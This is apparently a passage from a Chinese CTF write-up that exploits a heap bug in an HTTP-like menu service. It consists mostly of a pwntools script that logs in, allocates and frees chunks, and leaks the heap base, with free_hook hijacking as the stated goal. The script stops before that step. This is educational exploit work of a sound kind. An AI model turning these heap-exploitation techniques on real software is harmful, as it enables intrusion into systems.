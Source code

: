 ## 漏洞利用

基本利用就比较简单了，泄露`heapbase`和`libc`后劫持`free_hook`即可，这道题主要还是代码逻辑相对难一些😭

```python
from pwn import *

# io = process('./pwn')
io = remote('210.30.97.133',28094)
libc = ELF('./libc.so')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
context.arch = 'amd64'
context.os = 'linux'


def login():
    io.recvuntil('Waiting Package...')   
    payload = "DEV / HTPP/1.1\r\nrotartsinimda\x00"
    io.sendline(payload)

def create(idx,size,text):
    io.recvuntil('Waiting Package...')   
    payload = "POST / HTTP/1.1\r\n"+'\x01'+'&'+str(idx)+'&'+str(size)+'&'+ text
    io.sendline(payload)
    
def free(idx):
    io.recvuntil('Waiting Package...')   
    payload = "POST / HTTP/1.1\r\n"+'\x04'+'&'+str(idx)
    io.sendline(payload)
    
def show(idx):
    io.recvuntil('Waiting Package...')   
    payload = "POST / HTTP/1.1\r\n"+'\x03'+'&'+str(idx)
    io.sendline(payload)
    
def edit(idx,text):
    io.recvuntil('Waiting Package...')   
    payload = "POST / HTTP/1.1\r\n"+'\x02'+'&'+str(idx)+'&'+ text
    io.sendline(payload)
    
def p():
    gdb.attach(proc.pidof(io)[0])


def pwn():
    login()
    # pause()
    for i in range(7):
        create(i,0x90,'aaaa')

    free(0)    
    show(0)
    io.recvuntil('Content-Length: 5\n')
    # io.recvline()
    key = u64(io.recv(5).ljust(8,b'\x00'))
    heapbase = key<<12
    
   
    # edit(7,'a\x00')
    create(7,0x420,'aaaa')
    create(8,0x30,'bbbb')
    free(7)
    # p()
```